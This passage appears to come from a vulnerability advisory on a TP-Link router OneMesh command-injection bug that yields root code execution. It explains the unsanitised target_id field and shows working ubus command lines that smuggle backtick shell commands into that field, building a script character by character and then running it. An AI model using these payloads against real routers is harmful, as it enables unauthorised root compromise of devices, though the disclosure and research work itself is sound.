 As our controlled parameter is not sanitized before constructing the json we can escape the json context and execute commands within the scope of the lua script process, which runs as root. Effectively a following command will be executed by the lua and run in a shell:

```bash
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"<Controlled_Parameter>"}' &
```

# Exploitation

## Reaching the vulnerable function

To reach a vulnerable function we need to construct and encrypt a packet with specific parameters. As the packet structure is the same as described in the previous advisory we will not discuss it here. Please refer to [last year's advisory for details](https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo).

## Achieving code execution

Similarly to CVE-2020-10882 we are still limited by the 0x11 characters that we can use. strncpy() copies the slave_mac_info key into the slaveMac variable:

`strncpy(slave_mac,*(char **)(iVar6 + 0x10),0x11);`.

strncpy() doesn't null-terminate the destination string by default, so the usable length is supposedly to be 16 characters. However, we are saved by two things: 

1. at the beginning of the function the whole buffer space is memset to 0 (`memset(slave_mac,0,0x424);`); 
2. due to byte alignment, the slave_mac variable is actually at least 0x12 (18) chars. This means that even if we send 17 characters, the string will always be null terminated.

So even if we inject 17 characters, the string will always be null terminated, which is essential for the exploit to succeed. Note that it might be possible to inject more characters at once, but this was the quickest path to success, and we did not focus on efficiency.

Since we have the same limitations to last year's exploit, we need to use a similar approach of printing character by character into a file and execute it as  a shell script in the last step. 
In addition, escaping needs to be done differently: 

```
'`<PAYLOAD\>`'
```

A running exploit looks like this:

```bash
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf ';'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf '.'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf '/'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf 'q'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`sh b`'"}' &
```
